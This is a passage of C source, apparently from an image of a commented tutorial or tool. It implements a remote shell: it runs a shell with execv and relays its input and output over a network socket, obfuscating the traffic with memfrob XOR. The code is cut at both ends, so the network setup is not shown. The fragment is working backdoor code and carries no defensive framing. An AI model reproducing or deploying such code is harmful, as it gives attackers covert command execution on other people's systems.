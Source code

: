 ```C
        name[2] = NULL;
        execv (name[0], name );
        exit (1);

        return 0;
}


// This function decode the information received from the network sends
// it to the shell using the counterpart socket (from the socketpair)
// system call.
//
// At the same time, whenever the shell produces some output, this function
// will read that data, crypt it and send it over the network.
//
// Receives as parameters two file descriptors, one representing the
// socketpair end for communications with the shell (s1) and the
// other for networking (s).
void
async_read (int s, int s1)
{
        fd_set rfds;
        struct timeval tv;
        int max = s > s1 ? s : s1;
        int len, r;
        char buffer[1024];

        max++;
        while (1)
        {
                // macros to initialize the file descriptor set
                FD_ZERO(&rfds);
                FD_SET(s,&rfds);
                FD_SET(s1,&rfds);

                /* Time out. */
                // set to 1 second
                // microseconds resolution
                tv.tv_sec = 1;
                tv.tv_usec = 0;

                // standard select loop for a network application.
                if ((r = select (max, &rfds, NULL, NULL, &tv)) < 0)
                {
                        perror ("select:");
                        exit (EXIT_FAILURE);
                }
                else if (r > 0) /* If there is data to process */
                {

                  // The memfrob function does a XOR crypting with
                  // key (42). The greatest thing about XOR crypting is that the
                  // same function can be used for crypt and decrypt. Other than
                  // that, with a 1 byte long key (42 in this case) it is pretty
                  // useless.
                        if (FD_ISSET(s, &rfds))
                        {
                                // get data in our network socket, we just read the data,
                                // decrypt it and resend it to our shell.
                                memset (buffer, 0, 1024);
                                if ((len = read (s, buffer, 1024)) <= 0) exit (1);
                                memfrob (buffer, len);

```